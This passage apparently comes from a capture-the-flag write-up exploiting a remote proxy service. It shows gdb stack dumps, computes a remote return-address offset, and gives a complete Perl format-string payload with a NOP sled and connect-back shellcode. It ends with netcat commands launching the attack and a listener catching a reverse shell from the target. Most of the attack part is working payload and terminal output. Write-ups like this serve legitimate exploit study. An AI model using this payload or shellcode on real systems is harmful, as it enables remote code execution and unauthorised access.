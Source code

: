 ```assembly
rbp            0x7fffffffdcc0	0x7fffffffdcc0
rsp            0x7fffffffd9f0	0x7fffffffd9f0
(gdb) x/64xg $rsp
0x7fffffffd9f0:	0x0000000500000006	0x00007fffffffdee0
[..... TRUNCATED FOR BREVITY .....]
0x7fffffffdcc0:	0x00007fffffffe100	0x00000000004012cc
```
0x4012cc is the return address of getpage(). Just before is the stored value of ebp, which is at
address 0x7fffffffdcc0. Remember the output dump that we got at the beginning?
```
	<!-- 512 bytes recieved -->
	AAAAffffbea0140737351866848|140737348895744|140737354069824|0|
	.....
	2701162983232373248|4199320|4155044400|80|140733193388045|6310544|17039950270|140737351861824|2|
	140737488350384|4199116|140737488350616
```
Let's search for the address 0x4012cc (4199116). Just before there's the value: 140737488350384 
(0x7fffffffecb0). Bingo!

	Old ebp in my machine    : 0x00007fffffffe100
	Old ebp in remote machine: 0x00007fffffffecb0

The difference is 0xbb0 = 2992 bytes. If the shellcode (or the nop sled) on my machine starts at 
0x7fffffffdb40, it will start at 0x7fffffffdb40+0xbb0 = 0x7fffffffe6f0 on remote machine (no ASLR).

One more time, let's update the format string to overwrite the new address:
	Old : 0x40	0xdb	0xff	0xff	0xff	0x7f	0x00	0x00
	New : 0xf0	0xe6	0xff	0xff	0xff	0x7f	0x00	0x00
```
	perl -e 'print "AAA%237x" .                                           \
	"%038\$nCC%244x"."%039\$nCC%023x"."%040\$nCC%254x"."%041\$nCC%254x".  \
	"%042\$nCC%126x"."%043\$nCC%127x"."%044\$nCC%254x"."%045\$nCCCCCCC".  \
    "\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00".\
	"\x90"x100 .                                                          \
	"\x31\xf6\xf7\xe6\xff\xc6\x6a\x02\x5f\x04\x29\x0f\x05\x50\x5f\x52\x52\xc7\x44\x24\x04\x80\xd3\xbd\x54\x66\xc7\x44\x24\x02\x11\x5c\xc6\x04\x24\x02\x54\x5e\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\x56\x5a\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05".\
	"A"x40'
```
Now launch the attack:

___
```
--------------- TERMINAL 1 ---------------
root@nogirl # perl -e 'print "our_buffer"' | nc -nvvl -p80
	Listening on [0.0.0.0] (family 0, port 80)

--------------- TERMINAL 3 ---------------
ispo@nogirl ~ $ echo "GET http://ispo.ddns.net/"  | nc7-vv pwnxy.haxdump.com 1337

--------------- TERMINAL 2 ---------------
ispo@nogirl ~ $ nc -nlvv -p 4444
	Listening on [0.0.0.0] (family 0, port 4444)
	Connection from [54.153.72.141] port 4444 [tcp] accepted (family 2, sport 54847)
	whoami
		pwnxy
	pwd 
		/
	cd home
	ls -l
		total 8
```